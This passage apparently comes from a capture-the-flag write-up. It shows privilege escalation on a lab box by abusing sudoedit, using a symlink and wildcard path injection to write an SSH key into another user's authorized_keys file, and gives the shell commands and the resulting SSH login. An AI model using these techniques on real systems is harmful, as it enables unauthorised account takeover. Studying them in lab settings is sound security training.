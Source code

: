 > Starting with version 1.8.15, `sudoedit` will not follow symbolic
> links when opening files unless the *sudoedit_follow* option is
> enabled. The *FOLLOW* and *NOFOLLOW* tags override the value of
> *sudoedit_follow* and can be used to permit (or deny) the editing of
> symbolic links on a per-command basis. These tags are only effective
> for the *sudoedit* command and are ignored for all other commands.

So in order to not break the behavior if someone really wanted that, the
`sudoedit_follow` flag allows it to behave like the version 1.8.14 and
before. And that flag is present in this config.

Now I just have to drop a symlink to where I want to write as
`layout.md`, and I should be able to edit.

#### Exploit

I'll make a directory in the `/var/www/testing` directory, `0xdf`. In
there, I'll drop a symbolic link to the a file I want to write as
alekos, the user's `authorized_keys` file.



    werkzeug@joker:~/testing$ mkdir 0xdf
    werkzeug@joker:~/testing/0xdf$ ln -s /home/alekos/.ssh/authorized_keys layout.md
    werkzeug@joker:~/testing/0xdf$ ls -l
    total 0
    lrwxrwxrwx 1 werkzeug werkzeug 33 Aug  4 03:53 layout.md -> /home/alekos/.ssh/authorized_keys



Now I can `sudoedit` the file with
`sudoedit -u alekos /var/www/testing/0xdf/layout.md`. It opens a blank
file in `nano`, so I'll paste in my public SSH key.

### Exploit #2 - Wildcard Abuse

The command I can run is `sudoedit /var/www/*/*/layout.md`. What if I
let the `*/*` be `[space].ssh/authorized_keys[space]`. The command then
becomes `sudoedit /var/www/ .ssh/authorized_keys /layout.md`, which
will try to open three files to edit. The first, `/var/www/` will fail
because it's a directory. The second will open, and the third will allow
me to edit the temporary file, but then won't be able to write
`layout.md` at the system root.

I'll use this to drop a public key into the `authorized_keys` file just
like above.

### SSH

Either way I update the `authorized_keys` file, I can connect over SSH:



    root@kali# ssh -i ~/keys/ed25519_gen alekos@10.10.10.21
    The authenticity of host '10.10.10.21 (10.10.10.21)' can't be established.
    ECDSA key fingerprint is SHA256:1yj4blzJwO5TYIZYFB3HMwXEqeflHc2iF1Idp3lZ94k.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added '10.10.10.21' (ECDSA) to the list of known hosts.
    Welcome to Ubuntu 16.10 (GNU/Linux 4.8.0-52-generic x86_64)
